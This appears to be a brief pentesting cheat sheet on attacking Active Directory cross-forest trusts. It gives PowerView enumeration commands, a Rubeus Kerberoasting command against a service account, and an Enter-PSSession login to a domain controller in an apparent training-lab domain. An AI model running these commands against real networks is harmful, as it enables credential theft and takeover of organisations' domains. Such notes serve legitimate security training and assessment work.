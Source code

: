 ```yaml
---
layout: app
title: "AD Domain Trusts Cross-Forest"
tags: ["Kerberoasting"]

---
```


# Enumerating Accounts for Associated SPNs Using Get-DomainUser

```powershell
(powerview)> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

```powershell
(powerview)> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```


## Performing a Kerberoasting Attacking with Rubeus Using /domain Flag

```powershell
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

# Admin Password Re-Use & Group Membership

```powershell
(powerview)> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
(powerview)>Convert-SidToName [Group SID]
```
## Accessing to DC Using Enter-PSSession

```powershell
(powerview)> Enter-PSSession -ComputerName COMPUTER-DC.DOMAIN -Credential domain\administrator
```

# SID History Abuse - Cross Forest

